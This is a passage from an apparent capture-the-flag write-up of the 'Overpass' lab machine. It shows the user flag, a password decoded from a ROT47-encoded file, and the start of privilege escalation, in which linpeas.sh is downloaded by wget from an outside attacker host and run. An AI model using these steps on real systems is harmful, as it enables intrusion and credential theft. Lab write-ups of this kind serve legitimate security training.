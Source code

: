 ```bash
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website

james@overpass-prod:~$ ls -la
total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat .overpass 
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```
```txt
Encoded with ROT47 : #~%cf :D E96 62D:6DE 2?5 J6E A@H6C7F= 4:A96CP #~%cf 32D:42==J >2<6D E6IE F?C62523=6 2?5 5@6D ?@E C6BF:C6 255E:@?2= DA246]

Decoded : [{"name":"System","pass":"saydrawnlyingpicture"}]
```
## PRIVILEGE ESCALATION :

>>Checking for any escalation with the usera james but nothing.
>>Using linpeas.sh to check for the escalation point.

```bash
james@overpass-prod:~$ sudo -l
[sudo] password for james: 
Sorry, user james may not run sudo on overpass-prod.

james@overpass-prod:~$ wget http://10.10.76.219:8000/linpeas.sh
--2022-01-06 14:01:14--  http://10.10.76.219:8000/linpeas.sh
Connecting to 10.10.76.219:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 233380 (228K) [text/x-sh]
Saving to: \u2018linpeas.sh\u2019
linpeas.sh        100%[==========>] 227.91K  --.-KB/s    in 0.002s  
2022-01-06 14:01:14 (106 MB/s) - \u2018linpeas.sh\u2019 saved [233380/233380]

james@overpass-prod:~$ ls
linpeas.sh  todo.txt  user.txt
james@overpass-prod:~$ ./linpeas.sh
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
```